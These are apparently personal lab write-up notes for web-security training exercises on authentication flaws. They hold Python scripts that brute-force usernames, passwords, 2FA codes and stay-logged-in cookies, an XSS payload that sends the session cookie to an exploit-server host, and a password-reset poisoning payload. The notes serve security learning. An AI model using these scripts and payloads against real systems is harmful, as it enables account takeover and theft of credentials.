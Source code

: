 # Authentication vulnerabilities

## Lab: Username enumeration via subtly different responses

Invalid username message: `Invalid username or password.`  
Valid username message: `Invalid username or password`(a dot missing)  

## Lab: Broken brute-force protection, IP block

Defense: limit the wrong attemps per IP, but reset conter when log in successfully.
Bypass: X times attemps and followed by a correct login.

```python
us_f = open("username", "r")
ps_f = open("password", "r")
passwords = ps_f.readlines()
ps_t = open("password_tmp", "w")
us_t = open("username_tmp", "w")
# wiener&peter are valid
for i in range(len(passwords)):
    if (i % 2 == 0):
        us_t.write("wiener\n")
        ps_t.write("peter\n")
    us_t.write("carlos\n")
    ps_t.write(passwords[i])
    print(passwords[i], end='')
```

## Lab: Username enumeration via account lock

```python
us_f = open("username", "r")
usernames = us_f.readlines()
ps_f = open("password", "r")
passwords = ps_f.readlines()
ps_t = open("password_tmp", "w")
us_t = open("username_tmp", "w")

for i in range(len(usernames)):
    us_t.write(usernames[i])
    ps_t.write(passwords[0])
    us_t.write(usernames[i])
    ps_t.write(passwords[1])
    us_t.write(usernames[i])
    ps_t.write(passwords[2])

ps_t.close()
us_t.close()
```

## Lab: Username enumeration via account lock
- First check with username is valid. In this lab, different message is gived, check response text length.
- Brute force password. (this lab is easy, without REAL account lock.)

```python
usf = open("usernames", "r")
usernames = usf.readlines() 

import requests

url = 'https://1a7c0051045b95cf81b74d4c0034003f.web-security-academy.net/login'
for user in usernames:
    for i in range(5):
        data = {
            'username': user[:-1], # IMPORTANT!! [:-1]! WITHOUT breaklines.
            'password': 'whatever'
        }
        response = requests.post(url, data=data)

        print(f"Status Code: {response.status_code}", end='. ')
        # print(f"Response Content: {response.text}")
        # print(user, end='')
        print(len(response.text), end=".")
        if ("Invalid username or password." in response.text):
            # print("Invalid username or password")
            print(user)
        elif ("You have made too many incorrect login attempts" in response.text):
            print("Also Found it: ", user)
        else:
            print("Found it: ", user)
```

## Lab: 2FA broken logic

Bypass:
1. change 2FA Code request cookie, `verify=carlos`
2. brute-force 2FA Code validation request:

```python
import requests

url = 'https://0afc00e803f4920e81f98935000a005d.web-security-academy.net/login2'

# Cookies
cookies = {
    'verify': 'carlos',
    'session': 'eErTh9MMiwoQBuIpyzr00GPQULR0tZKe'
}

for i in range(191, 9999):
    string = f"{i:04d}"
    # Data
    data = {
        'mfa-code': string,
    }

    # Make the POST request
    response = requests.post(url, cookies=cookies, data=data)

    # Print the response
    # print(f"Status Code: {response.status_code}")
    if ("Incorrect security code" not in response.text):
        print("Found it.", string)
    else:
        print(string, end=" ")
```

## Lab: Brute-forcing a stay-logged-in cookie

Bypass: `stay-logged-in` is `base64(username:md5(password))`. Brute-force

```python
# Lab: 2FA broken logic

import hashlib
import base64
import requests

url = 'https://0a5b009a039c341d800f7b37004a0036.web-security-academy.net/my-account?id=carlos'

# Cookies
for password in passwords:
    cookies = {
        'stay-logged-in': base64.b64encode("carlos:".encode() + hashlib.md5(password[:-1].encode()).hexdigest().encode()).decode('utf-8')
    }

    response = requests.post(url, cookies=cookies)

    # print(response.status_code, response.text)

    if ("Your username" in response.text):
        print("Found it.", password[:-1])
    else:
        print(password[:-1])
```


## Lab: Offline password cracking

1. XSS to get cookie: `<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`
2. `cookie.stay-logged-in = base64(md5(username:password))`
3. it's a known md5 string


## Lab: Password reset broken logic

Change the Username in Password reset request: `/forgot-password`


## Lab: Password reset poisoning via middleware

```html
<button onclick="document.location=''">click here</button>

<a href="https://0af100df042c2592803d2bfb00140084.web-security-academy.net" formaction="/forgot-password?username=wiener%40exploit-0a69000d049325fc801a2a9f01280043.exploit-server.net" formmethod="post">Send POST Request</a>
```


## Lab: Password reset poisoning via middleware

Vulnerability:
- The victim clicks what ever link received.
- The `X-Forwared-Host` supported in password reset function.

Bypass:
- Change `X-Forwared-Host` of password reset function to self-controlled host. Namely, the server will generate a reset link: `https://SELF-CONTROLLED.com?token=xxx`.
- When the victim click the reset link, the token is stolen.

## Lab: Password brute-force via password change

Brute-force the change-password request, it's not defensed at all.

```python
import requests

wrong_promp = "Current password is incorrect"
correct_promp = "New passwords do not match"

url = "https://0a8700a304e421b8806fa3e40073003a.web-security-academy.net/my-account/change-password"

cookies = {
    "session": "pO3NSh1FpX3KSaFOOmkEuA6cGNqodV84",
    "session": "I2YwGoKiFc4K6M90y1wvMWLmZhXp9aZm"
}

# password = "test123"

for password in passwords:
    data = {
        "username": "carlos",
        "current-password": password, 
        "new-password-1": "test12", 
        "new-password-2": "test"
    }

    response = requests.post(url, data=data, cookies=cookies)

    if (wrong_promp in response.text): 
        print("wrong: ", password)
    elif (correct_promp in response.text):
        print("correct: ", password)
    else:
        print("something wrong", password)
```